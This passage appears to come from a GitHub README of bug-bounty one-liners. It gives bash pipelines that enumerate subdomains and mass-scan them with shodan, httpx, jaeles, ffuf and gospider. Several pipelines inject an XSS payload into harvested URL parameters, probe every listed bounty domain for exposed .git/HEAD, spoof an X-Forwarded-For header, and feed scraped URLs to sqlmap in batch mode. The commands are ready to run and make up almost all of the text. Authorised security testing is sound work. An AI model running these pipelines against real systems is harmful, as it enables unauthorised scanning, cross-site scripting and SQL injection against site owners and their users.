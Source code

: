 ###  Using shodan to jaeles

- [Explained command](https://bit.ly/2Dkmycu)

```bash
domain="domaintotest";shodan domain $domain | awk -v domain="$domain" '{print $1"."domain}'| httpx -threads 300 | anew shodanHostsUp | xargs -I@ -P3 sh -c 'jaeles -c 300 scan -s jaeles-signatures/ -u @'| anew JaelesShodanHosts 
```

###  Search to files using assetfinder and ffuf

- [Explained command](https://bit.ly/2Go3Ba4)

```bash
assetfinder att.com | sed 's#*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w path.txt -u @/FUZZ -mc 200 -H "Content-Type: application/json" -t 150 -H "X-Forwarded-For:127.0.0.1"'
```

###  HTTPX using new mode location and injection XSS using qsreplace.

- [Explained command](https://bit.ly/2Go3Ba4)

```bash
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo '(http|https)://[^/"].*' | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>" "'
```

###  Grap internal juicy paths and do requests to them.

- [Explained command](https://bit.ly/357b1IY)

```bash
export domain="https://target";gospider -s $domain -d 3 -c 300 | awk '/linkfinder/{print $NF}' | grep -v "http" | grep -v "http" | unfurl paths | anew | xargs -I@ -P50 sh -c 'echo $domain@ | httpx -silent -content-length'
```

###  Download to list bounty targets We inject using the sed .git/HEAD command at the end of each url.

- [Explained command](https://bit.ly/2R2gNn5)

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv | cat domains.txt | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

###  Using to findomain to SQLINJECTION.

- [Explained command](https://bit.ly/2ZeAhcF)

```bash
findomain -t testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```
